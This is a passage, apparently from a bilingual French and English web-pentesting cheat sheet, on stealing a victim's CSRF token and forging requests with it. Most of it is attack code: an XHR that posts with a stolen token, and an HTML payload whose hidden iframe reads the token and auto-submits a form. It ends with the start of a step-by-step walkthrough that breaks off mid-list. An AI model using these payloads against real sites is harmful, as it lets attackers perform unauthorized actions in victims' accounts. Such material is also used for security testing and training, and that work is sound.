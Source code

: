 ```javascript
var xhr = new XMLHttpRequest();
xhr.open("POST", "https://www.example.com/endpoint", true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("X-CSRF-Token", "valeur_du_jeton_csrf_volé");
xhr.send("param1=value1&param2=value2");
```

Il est important de noter que ces méthodes d'attaque nécessitent que l'attaquant ait réussi à voler le jeton CSRF de l'utilisateur légitime au préalable. Les développeurs doivent mettre en place des mesures de protection appropriées, telles que l'utilisation de jetons CSRF avec une durée de validité limitée, pour prévenir les attaques CSRF.
```markup
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
x1=document.getElementById("i1");
x1d=(x1.contentWindow||x1.contentDocument);
t=x1d.document.getElementById("token").value;

document.getElementById("token").value=t;
document.getElementById("form1").submit();
}
</script>
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```
### **Vol de jeton CSRF et envoi d'une requête POST à l'aide d'un iframe et d'un formulaire**

To perform a Cross-Site Request Forgery (CSRF) attack, an attacker needs to steal the victim's CSRF token and use it to send unauthorized requests on behalf of the victim. One way to achieve this is by using an iframe and a form.

Pour effectuer une attaque de type Cross-Site Request Forgery (CSRF), un attaquant doit voler le jeton CSRF de la victime et l'utiliser pour envoyer des requêtes non autorisées en son nom. Une façon d'y parvenir est d'utiliser un iframe et un formulaire.

1. The attacker creates a malicious webpage that contains an iframe pointing to the target website.

   L'attaquant crée une page web malveillante contenant un iframe pointant vers le site cible.

   ```html
   <iframe src="https://www.target-website.com"></iframe>
   ```

2. The attacker also includes a hidden form in the malicious webpage. This form is automatically submitted when the page loads.
